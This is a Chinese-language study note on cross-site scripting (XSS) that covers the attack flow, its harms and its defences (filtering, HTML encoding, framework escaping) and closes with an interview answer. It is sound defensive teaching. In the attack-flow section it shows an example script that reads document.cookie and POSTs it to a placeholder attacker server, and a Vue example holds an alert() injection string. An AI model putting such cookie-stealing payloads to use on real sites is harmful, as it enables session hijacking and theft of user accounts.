

# XSS (跨站脚本攻击) 学习笔记

## 一、 什么是 XSS 攻击？

### 1.1. 定义

  - **全称**：Cross-Site Scripting (跨站脚本攻击)
  - **缩写**：`XSS` (为避免与层叠样式表 CSS `Cascading Style Sheets` 混淆)
  - **核心思想**：攻击者利用网站漏洞，将恶意的脚本代码注入到网页中，当其他用户浏览该网页时，这些恶意脚本就会在用户的浏览器上执行，从而达到攻击的目的。

### 1.2. 与 CSRF 的对比

XSS 攻击比 CSRF (跨站请求伪造) 更加直接和“无耻”。CSRF 至少还需要攻击者构建一个独立的恶意网站来诱导用户点击，而 XSS 则是直接利用被攻击网站本身来执行脚本。

## 二、 XSS 攻击原理与流程

### 2.1. 攻击流程

攻击的核心在于服务器**未对用户的输入进行充分的过滤和验证**，就将其存储并展示给其他用户。

1.  **注入恶意脚本**：攻击者在网站上可以输入内容的地方（如论坛帖子、用户评论、个人简介等）提交一段包含恶意 JavaScript 代码的内容。

    ```html
    <script>
      // 恶意代码，例如：
      // 1. 获取当前用户的 cookie
      const userCookie = document.cookie;

      // 2. 将 cookie 发送到攻击者的服务器
      fetch('http://attacker-server.com/steal-cookie', {
        method: 'POST',
        body: JSON.stringify({ cookie: userCookie })
      });
    </script>
    ```

2.  **服务器存储**：服务器接收到这段内容后，未进行任何处理或处理不当，就将其作为正常数据存入数据库。

3.  **用户请求**：一个正常的用户访问包含上述恶意内容的页面（例如，查看这篇帖子）。

4.  **执行恶意脚本**：服务器从数据库中读取该内容，并将其作为 HTML 的一部分返回给正常用户的浏览器。浏览器在解析 HTML 时，会发现并执行其中的 `<script>` 标签，导致恶意代码在正常用户的电脑上运行。

### 2.2. 攻击示意图



## 三、 XSS 攻击的危害

恶意脚本一旦在用户浏览器上执行，就几乎可以做到任何 JavaScript 能做到的事情，危害巨大：

1.  **窃取用户信息**：

      - 最常见的攻击目标是用户的 `Cookie`，攻击者获取 Cookie 后可以冒充用户身份，进行“会话劫持”。
      - 也可以获取 `localStorage`、`sessionStorage` 等本地存储信息。

2.  **DOM 篡改**：

      - 通过 JavaScript 动态修改页面内容，制造虚假的登录框、按钮或链接，诱骗用户输入账号密码（网络钓鱼）。
      - 将用户引导至其他恶意网站。

3.  **发起其他攻击**：

      - 将用户的浏览器作为“肉鸡”，对其他网站发起 DDoS 攻击。

## 四、 XSS 的防御策略

防御的核心原则：**永远不要信任任何用户的输入 (Never trust user input)**。防御工作主要在**服务器端**完成，客户端的防御可以作为辅助。

主要有两种防御方式：**过滤 (Sanitization)** 和 **编码 (Encoding)**。

### 4.1. 过滤 (Sanitization)

过滤是指根据规则，直接移除或替换掉用户输入中的潜在危险内容。

  - **过滤危险标签**：直接移除 `<script>`, `<iframe>`, `<object>`, `<embed>` 等可以直接执行代码或加载外部资源的标签。
  - **过滤危险属性**：即使某些标签（如 `<a>`, ``）是允许的，但其特定属性也可能带来风险。
      - 移除事件处理器属性，如 `onclick`, `onerror`, `onmouseover` 等。
      - 限制 `href` 和 `src` 属性。例如，只允许链接到本站资源，防止将用户引导到外部恶意网站。
    <!-- end list -->
    ```javascript
    // 伪代码：检查 A 标签的 href 是否为站外链接
    if (a_tag.href.startsWith('http') && !a_tag.href.includes('my-safe-site.com')) {
        // 移除该链接或整个 A 标签
    }
    ```
      - 移除自定义的、可能触发特定脚本逻辑的属性（如文本中提到的 `data-url`）。

### 4.2. 编码 (Encoding / Escaping)

编码是指将用户输入的、具有特殊含义的字符转换为其对应的 HTML 实体，使其作为纯文本显示，而不会被浏览器当作 HTML 标签来解析执行。

  - **原理**：我不删除你的内容，但我让它“失效”。
  - **示例**：

| 原始输入 | 编码后输出 | 浏览器渲染结果 |
| :--- | :--- | :--- |
| `<script>` | `&lt;script&gt;` | 页面上会显示文本 `<script>` |
| `<h1>Hi</h1>` | `&lt;h1&gt;Hi&lt;/h1&gt;` | 页面上会显示文本 `<h1>Hi</h1>` |

  - **常见需要编码的字符**：

| 字符 | HTML 实体 |
| :---: | :---: |
| `<` | `&lt;` |
| `>` | `&gt;` |
| `&` | `&amp;` |
| `"` | `&quot;` |
| `'` | `&apos;` |

### 4.3. 框架中的防御

现代前端框架（如 Vue, React）通常内置了 XSS 防御机制。它们在进行数据绑定时，默认会对内容进行编码。

  - **Vue.js 示例**：

    ```javascript
    // 在 Vue 的 data 中
    data() {
      return {
        maliciousContent: '<script>alert("hacked!")</script>'
      }
    }
    ```

    ```html
    <div>{{ maliciousContent }}</div>
    <div v-html="maliciousContent"></div>
    ```

## 五、 面试题总结

**问：请介绍一下 XSS 攻击及如何防御？**

**答：**

XSS，全称跨站脚本攻击，是一种代码注入攻击。它的原理是攻击者利用 Web 应用程序的漏洞，在用户提交的内容中注入恶意的 JavaScript 脚本。如果服务器没有对这些输入做充分的校验和处理，就将其存储并展示在页面上，那么当其他正常用户浏览这个页面时，这段恶意脚本就会在他们的浏览器中执行。

**攻击的危害主要有：**

1.  **窃取用户信息**：比如盗取用户的 Cookie，进行会话劫持。
2.  **网页篡改**：在页面上插入虚假的登录框，进行网络钓鱼。
3.  **流量劫持**：将用户重定向到恶意网站。

**防御 XSS 的核心思想是“不信任任何用户输入”，主要有两种方法：**

1.  **过滤**：在服务器端设置一个白名单或黑名单，移除用户输入中危险的 HTML 标签（如 `<script>`）和属性（如 `onclick`）。
2.  **编码**：在服务器端将用户输入的特殊字符（如 `<`、`>`）转换为 HTML 实体（如 `&lt;`、`&gt;`）。这样一来，即使用户输入了脚本，浏览器也只会把它当作纯文本来显示，而不会执行它。

在实际开发中，通常会结合使用这两种方法，并且很多后端和前端框架（如 Vue、React）都内置了默认的编码防御机制。